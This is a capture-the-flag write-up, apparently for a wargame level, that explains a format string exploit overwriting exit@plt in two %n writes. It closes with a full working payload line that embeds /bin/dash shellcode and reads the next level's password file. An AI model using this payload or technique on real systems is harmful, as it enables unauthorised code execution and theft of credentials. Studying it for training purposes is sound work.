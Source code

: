 # Format String exploit on the stack

see source.c

## Analysis

After a quick look, we noticed where the flaw is:
the program is calling printf with a received input strings.

The difficulty of this one is obviously the call at exit right away, that means we have to modify and use the linkage table of exit 'exit@plt' and redirect it on a payload/function. But we didn't find any cool function to use so this was a payload time !

First problem: We didn't manage to jump on a address on the stack on the previous format string exploit due to the really high value of the stack and the printf maximum capacity of char printed. So we think about it and found a smart way to do it: Modify the pointer in 2 times instead of 1 ! Meaning that the highest value that we have to print and assign to a pointer would be 0xffff (65536), let's jump on that payload ! o/

### Example:
Supposing we need to rewrite the address at 0x080407e0 and set it to 0xffffd69d:
Firstly we will fill 0x080407e0 with the last 2 bytes with a first %n so:
``` 
0x080407e0: 0x0000d69d (\x9d\xd6\x00\x00)
```
Then we will fill 0x080407e0 + 2 with the last 2 bytes (here 0xffff), it will also rewrite 0x080407e0 but we don't care:
```
0x080407e2: 0x0000ffff (\xff\xff\x00\x00)
so:
0x080407e0: 0xffffd69d (\x9d\xd6\xff\xff)
```

Of course, the first 2 bytes digit must be < to the last 2 bytes on this solution, but this was the case c:

### Payload structure
Ok cool ! Then we have to think about a payload structure to make this works ! We'll do something like this:
```
[ EXIT@PTR ][4 bytes padding ][ EXIT@PTR + 2][ /bin/dash payload ][padding]%n[padding]%n"
```
`padding` must contains %p or %x and padding needed to fill the right value on %n. We'll use gdb to caculate that !

### /bin/dash payload
Another problem from the code with disassemble: the program is putting all uppercase letters in lowercase.. That means we have to build a little payload that doesn't contains any uppercase to avoid problems (because bytecode will be different, it will break our payload).

see `resources/payload.s` to see the achieved payload.

Note that we probably could have avoided this problem by putting the payload at the end of the format string and null terminated the string before to avoid the loop with strlen checking but we doesn't think about it at this time since we were very tired. (But we manage to do it anyway so....!)

## Exploit

After a some deep problem with stack localization in/or out gdb (address weren't the same), we manage to get a good payload by analysing the pointer that we were printing, for example:

```
0xf7fcfac0 0xf7ec3af9 0xffffd6af 0xffffd6ae(nil) 0xffffffff 0xffffd734 0xf7fdb000 // tracerless payload
0xf7fcfac0 0xf7ec3af9 0xffffd6bf 0xffffd6be(nil) 0xffffffff 0xffffd744 (nil) // gdb/ltrace payload
```
We can see that we haven't the same amount of printed bytes and address are 0x10 away one to another, so we have to think about all that when migrating the payload out of gdb.

Final payload (poggers):
```
(python -c "print('\xe0\x97\x04\x08aaaa\xe2\x97\x04\x08\x31\xc9\xf7\xe1\x6a\x0b\x5f\x89\xf8\x6a\x68\x68\x2f\x64\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x6a\x01\x5f\x89\xf8\xcd\x80%2993p%51830p%p%p%p%p%p%p%p%10n %10601p %n')"; echo "cat /home/users/level06/.pass") | /home/users/level05/level05
```
